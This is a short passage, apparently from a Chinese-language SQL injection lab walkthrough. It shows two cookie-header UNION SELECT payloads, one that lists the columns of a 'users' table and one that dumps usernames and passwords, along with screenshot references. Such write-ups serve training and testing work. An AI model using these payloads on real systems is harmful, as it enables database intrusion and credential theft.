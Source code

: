 #### 爆字段

```
Cookie: uname=' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607131806885.png" alt="image-20230607131806885" style="zoom:50%;" />

#### 拖库

```
Cookie: uname=' union select 1,2,group_concat(username,':',password) from users#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607131942154.png" alt="image-20230607131942154" style="zoom: 50%;" />
